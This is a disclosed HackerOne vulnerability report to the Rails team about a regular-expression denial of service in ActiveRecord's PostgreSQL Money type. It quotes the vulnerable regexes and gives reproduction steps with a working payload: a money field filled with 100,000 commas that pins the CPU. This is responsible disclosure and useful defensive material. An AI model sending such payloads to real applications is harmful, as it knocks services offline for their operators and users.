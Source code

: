 # Regular expression denial of service in ActiveRecord's PostgreSQL Money type

## Report Details
- **Report ID**: 1023899
- **URL**: https://hackerone.com/reports/1023899
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-11-01T14:22:54.710Z
- **Disclosed**: 2021-02-11T00:13:07.326Z

## Reporter
- **Username**: dee-see
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
## Summary

Hello team! The regular expressions used in the [Money](https://github.com/rails/rails/blob/ddd0e9b/activerecord/lib/active_record/connection_adapters/postgresql/oid/money.rb#L29) type to convert strings like `-$100,000.00` to `100000` have an execution time with a quadratic growth proportional to the length of the string.

Causing the denial of service requires very long strings but if the parameter is in a post body that won't be a problem.

## Details

The regular expressions marked `(1)` and `(2)` in [the following code](https://github.com/rails/rails/blob/ddd0e9b/activerecord/lib/active_record/connection_adapters/postgresql/oid/money.rb#L28-L33) are the vulnerable expressions

```ruby
            case value
            when /^-?\D*[\d,]+\.\d{2}$/  # (1)
              value.gsub!(/[^-\d.]/, "")
            when /^-?\D*[\d.]+,\d{2}$/  # (2)
              value.gsub!(/[^-\d,]/, "").sub!(/,/, ".")
            end
```

This code is invoked when Rails saves a user-input value in a `Money` field. If we look at the first expression, the problem comes from this bit `\D*[\d,]+`. It matches "not a number" 0 or more times and then "a number or a ," one or more times. The `,` can match both expressions so this is somewhat equivalent to `,*,+` as far as the attack is concerned and is where the `O(n^2)` execution time comes from.

## Steps to reproduce

I'm going to assume PostgreSQL is installed and configured on the machine.

Now we'll install the PostgreSQL ruby interface, setup a rails application and scaffold a view for the attack.

```ruby
gem install pg
rails new moneydos --database=postgresql
cd moneydos
rails db:setup
rails g scaffold Money amount:money
rake db:migrate
```

Now in the `rails console` run these commands. (The same could be accomplished though the UI, but this is simpler for reproduction purpose)

```ruby
app.host = 'localhost'
app.get '/money'
token = app.session[:_csrf_token]
app.post '/money/', params: {money: {amount: ("$" + ","*100000 + ".11!")}, authenticity_token: token}
```

The last line takes 40 seconds to execute on my machine. Add a 0 to the `","*100000` part and the CPU will pretty much spin forever. An attacker could repeat those requests many times to reach full saturation of the host's CPU capabilities and achieve a complete denial of service.

## Impact

Denial of service and 100% CPU usage in situations where a malicious user is able to input money amounts in a request body (web shops come to mind as the obvious target)

## Attachments
No attachments
